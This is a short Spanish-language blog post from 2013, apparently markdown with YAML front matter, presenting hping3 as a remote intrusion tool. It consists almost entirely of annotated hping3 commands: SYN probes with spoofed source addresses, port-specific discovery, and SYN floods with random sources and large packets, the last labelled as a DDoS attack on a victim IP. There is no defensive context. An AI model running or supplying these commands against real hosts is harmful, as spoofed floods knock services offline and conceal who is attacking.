 ```yaml
---
layout: post
title: "hping"
date: 2013-12-15 18:37
comments: true
categories: 
---
```

Herramienta de intrusión remota (ataque ICMP)

>~# hping3 -I eth0 -S 192.169.2.2  (ping no silencioso)

>~# hping3 -I eth0 -a 192.168.2.158 -S 192.169.2.2  (enmascarando  nuestra IP con una de ficticia-192.168.1.158)

>~# hping3 -I eth0 -a 192.168.2.158 -S 192.168.2.2 -p 135 (Descubrir máquinas que con un ping no responden, enmascarando la IP y especificando un puerto)

>~# hping3 -S -a ip_ficticia -p 80 -k ip_atacada

>~# hping3 -i m100 -S -a ip_ficticia -p 80 -k ip_atacada

>~# hping3 -S 192.168.1.158 --flood --rand-source -d 5000 -p 80 (Enviando paquetes lo más rápido posible [flood], simulando orígenes aleatorios [rand-source], tamaño del paquete en bites [d] y puerto de entrada)

>~# hping3 --rand-source -p 80 -S --flood ip_victima (ataque DDos a una ip)

